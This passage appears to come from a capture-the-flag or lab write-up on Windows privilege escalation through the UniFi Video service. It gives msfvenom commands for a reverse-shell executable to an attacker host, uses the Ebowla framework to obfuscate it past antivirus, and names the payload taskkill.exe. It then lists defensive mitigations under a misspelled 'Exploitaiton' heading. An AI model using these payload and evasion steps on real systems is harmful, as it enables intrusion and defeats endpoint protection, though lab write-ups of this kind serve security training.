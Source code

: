     ```bash
    msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.32 LPORT=445 -f exe -a x64 -o shell-445.exe
    ```
    
2. Change `genetic.config` file
    
    ![image.png](image%2017.png)
    
    ![image.png](image%2018.png)
    
    ```bash
    python ebowla.py shell-445.exe genetic.config
    ```
    
3. Then run build script
    
    ```bash
    ./build_x64_go.sh ./output/go_symmetric_shell-445.exe.go taskkill.exe
    ```
    

New file will be put inside of `output` directory.

Now we can see that out shell is not getting deleted, and after stopping the service we get a reverse shell:

```powershell
sc.exe stop Unifivideoservice
```

![image.png](image%2019.png)

## Exploitaiton

- Ensure **SQL Server roles** are properly restricted and reviewed regularly for **least-privilege** access.
- Run SQL services under **non-privileged, isolated service accounts**.
- Regularly **patch third-party applications**, especially those running with elevated privileges.
- Use **application whitelisting** to restrict what executables can run in sensitive directories.
- Deploy **EDR and AV solutions** capable of detecting **custom or obfuscated payloads** and unusual application behavior.
